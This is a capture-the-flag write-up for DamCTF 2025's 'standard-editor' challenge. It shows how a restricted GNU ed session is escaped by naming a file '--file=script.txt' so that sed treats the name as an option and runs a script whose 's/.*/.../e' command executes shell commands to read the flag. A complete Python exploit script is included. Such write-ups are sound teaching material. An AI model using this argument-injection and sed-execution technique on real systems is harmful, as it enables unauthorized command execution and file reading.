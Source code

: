 # DamCTF2025 - standard-editor writeup

- Write-Up Author: looy3 


## Write up  

---

We were given no description for this challenge, just a netcat command. The command provided a simple terminal session which outputted only the text
```
[Sun May 11 12:34:33 UTC 2025] Welcome, editor!
Feel free to write in this temporary scratch space.
All data will be deleted when you're done, but files will
first be printed to stdout in case you want to keep them.
```
My gut instinct, based on the last line, is that command injection must be the solution. First, however, I had to figure out what input did in general. I quickly discovered that typing anything and hitting newline just rendered a ?. I didn't know what ed was at the time, so I mostly played around. By writing a Python script which inserted every ASCII character and hit newline, I discovered the following:
1. = returns 0
2. H gives verbose feedback
3. P returns a * after every new line
4. R, w, Q, q, a, c all return different errors or make close
From Google, I quickly discovered that netcat brought me to an Ed session. Ed is [is a line editor and one of the first parts of the Unix operating system that was developed, in August 1969](https://en.wikipedia.org/wiki/Ed_(software)). Google further revealed that there were several commands which should allow me to read/write/execute code. These commands are
1. ! you can run shell commands off this.
2. R/r/e /directory/flag.txt you can load into buffer or read the number of bytes in the flag through this command.
However, running these commands just gave me "directory access restricted" or "shell access restricted". This means that Ed was invoked with red or ed --restricted. So we will not be able to do very much with Ed command directly. To ensure I wasn't missing any commands, I checked what version of ed I was using. I found this on [stackexchange](https://unix.stackexchange.com/questions/657459/what-is-the-difference-between-gnu-ed-and-the-version-of-ed-that-ships-with-unix):
```
These are some other differences:

# as a comment character.

GNU: # is a comment command.
BSD: # is not a valid command.
Plan 9: Like BSD.
POSIX: Like BSD.
Behavior destroying unsaved work.

GNU: e, e !, and q always fails on the first try if the buffer is unsaved.
BSD: Like GNU, but using -s disables the warning.
Plan 9: Like GNU.
POSIX: Like GNU.
Exit status (this is a bit difficult to test thoroughly).

GNU: Terminates with a non-zero exit status if the last command caused an error.
BSD: Most errors cause non-zero termination only with -s.
Plan 9: Seems to never terminate with non-zero exit status.
POSIX: Termination with a zero exit status means "Successful completion without any file or command errors."
The s/// command, but with only the first /.

GNU: s/RE is an error.
BSD: s/RE behaves like s/RE/, which is the same as s/RE//p, i.e. it replaces the substring matching the regular expression RE with nothing and prints the modified line.
Plan 9: Like BSD.
POSIX: Like GNU.
Using ^ as an address.

GNU: ^ is an invalid address.
BSD: ^ addresses the previous line, just like -.
Plan 9: Like BSD.
POSIX: Permits ^ to be the same as -.
Combining the printing commands p, l, and n (like nl), and repeating commands while doing so (as in nlnl or pnnn).

GNU: Combining printing commands is allowed. Repeated commands are not permitted (although pp, nn, and ll are allowed since the standard allows adding p, n, or l to commands other than e, E, f, q, Q, r, w, or !).
BSD: Combining printing commands is allowed. Repeated commands are permitted.
Plan 9: Combinations of two commands out of the three are permitted (not nlp). Repeated commands are not allowed.
POSIX: The effect of combining printing commands is "unspecified".
Upon receiving a HUP signal, the current editing buffer is saved in a file called ed.hup in the current directory. If that fails, the buffer is written to $HOME/ed.hup. What happens if these names already exist?

GNU: The file ed.hup in the current directory will be overwritten if it is a regular file and it's owned by the current user. Otherwise, the file $HOME/ed.hup will be overwritten if it is a regular file owned by the current user. Otherwise, the buffer is lost.
BSD: Like GNU, but the current buffer is also available in a temporary file whose name matches /tmp/ed.*.
Plan 9: Like GNU.
POSIX: Like GNU.`
```
The challenge used GNU ed. Unfortunately, GNU ed doesn't really have any unique commands which would allow me to execute code externally.

Thus, as per my initial hunch, I assumed that either the file name or file contents are executed by something. To test this, I simply devised a python script (not using pwntools, although I should have :P) to test every possible ASCII combination in both the file name and file contents and then wrote it to the local directory (which is allowed under red). Two ASCII characters stood out to me: Both '-' and '.' yielded this error:
```
sed: invalid option -- ' '
Usage: sed [OPTION]... {script-only-if-no-other-script} [input-file]...

  -n, --quiet, --silent
                 suppress automatic printing of pattern space
      --debug
                 annotate program execution
  -e script, --expression=script
                 add the script to the commands to be executed
  -f script-file, --file=script-file
                 add the contents of script-file to the commands to be executed
  --follow-symlinks
                 follow symlinks when processing in place
  -i[SUFFIX], --in-place[=SUFFIX]
                 edit files in place (makes backup if SUFFIX supplied)
  -l N, --line-length=N
                 specify the desired line-wrap length for the `l' command
  --posix
                 disable all GNU extensions.
  -E, -r, --regexp-extended
                 use extended regular expressions in the script
                 (for portability use POSIX -E).
  -s, --separate
                 consider files as separate rather than as a single,
                 continuous long stream.
      --sandbox
                 operate in sandbox mode (disable e/r/w commands).
  -u, --unbuffered
                 load minimal amounts of data from the input files and flush
                 the output buffers more often
  -z, --null-data
                 separate lines by NUL characters
      --help     display this help and exit
      --version  output version information and exit

If no -e, --expression, -f, or --file option is given, then the first
non-option argument is taken as the sed script to interpret.  All
remaining arguments are names of input files; if no input files are
specified, then the standard input is read
```
You can see the steps I took to manually get this error:
![I hate alt text](https://github.com/looy3/ctf-writeups/DamCTF/misc/imsadsadsadsaage.png)

I didn't bother with executing code from sed using . and rather focused on -. First, I tried --version. This worked. I found that we were using the latest version of GNU Sed.
```
[Sun May 11 13:00:19 UTC 2025] Welcome, editor!
Feel free to write in this temporary scratch space.
All data will be deleted when you're done, but files will
first be printed to stdout in case you want to keep them.
10
sed (GNU sed) 4.9
Packaged by Debian
Copyright (C) 2022 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <https://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

Written by Jay Fenlason, Tom Lord, Ken Pizzini,
Paolo Bonzini, Jim Meyering, and Assaf Gordon.

This sed program was built with SELinux support.
SELinux is disabled on this system.

GNU sed home page: <https://www.gnu.org/software/sed/>.
General help using GNU software: <https://www.gnu.org/gethelp/>.
E-mail bug reports to: <bug-sed@gnu.org>.
```
Cool. We can use sed. I tried other payloads, including 
```-n 's/.*/COMMAND/e'```
Dir access was blocked. Sed does allow for numerous wild cards though. But even then, sed only replied that it could not execute '' . It was reading my input as a singular string. I'd have to find a way to execute commands which could be written in a single string. Sed's man page reported the following:
```
--file=script-file

              add the contents of script-file to the commands to be executed
              ```
Pretty sure I could use that to execute a script file I made using ed (as I could only run one command in sed before session ended). Thus, the following payload, which contains a sed command ```(s/.*/cd ..; ls .. -a; cd ..; cat flag/e)``` inside a script named 'script.txt' is executed by another file written as --file=script.txt with contents --file=script.txt. This finally provided the much wanted flag:
```
dam{is_it_w31rd_that_i_u53_ed(1)_4_fun?}
```
This is the full script with all of its sockets :P
```
import socket
import string

def send_to_netcat(host, port, data):
    """Sends data to a netcat listener and returns the response."""
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.connect((host, port))
            s.sendall(data.encode())
            s.shutdown(socket.SHUT_WR)

            response = b""
            while True:
                chunk = s.recv(4096)
                if not chunk:
                    break
                response += chunk
            return response.decode()
    except Exception as e:
        return f"Error: {e}"

if __name__ == "__main__":
    host = "standard-editor.chals.damctf.xyz"
    port = 6733
    commands = f"H\na\ns/.*/cd ..; ls .. -a; cd ..; cat flag/e\n.\nw script.txt\n1d\na\n--file=script.txt\n.\nw --file=script.txt\n"  
    data = commands
    response = send_to_netcat(host, port, data)
    print(response)
    print("\n\n\n")
```

